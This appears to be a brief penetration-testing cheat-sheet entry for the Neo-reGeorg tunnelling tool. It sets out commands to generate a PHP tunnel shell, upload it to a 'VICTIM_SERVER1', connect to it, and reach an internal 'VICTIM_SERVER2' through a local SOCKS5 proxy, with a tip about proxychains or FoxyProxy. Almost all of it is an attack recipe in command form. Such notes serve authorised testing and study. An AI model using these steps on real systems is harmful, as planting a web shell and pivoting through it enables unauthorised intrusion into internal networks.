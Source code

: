 ## Tools: Neo-reGeorg https://github.com/L-codes/Neo-reGeorg

#### 1) python3 neoreg.py generate -k KEY 

#### 2) Upload the PHP file to SERVER1

#### 3) python3 neoreg.py -k KEY -u http://VICTIM_SERVER1/uploader/files/tunnel.php

#### 4) curl --socks5 127.0.0.1:1080 http://VICTIM_SERVER2:80 

## TIP" We can also use proxychains or FoxyProxy
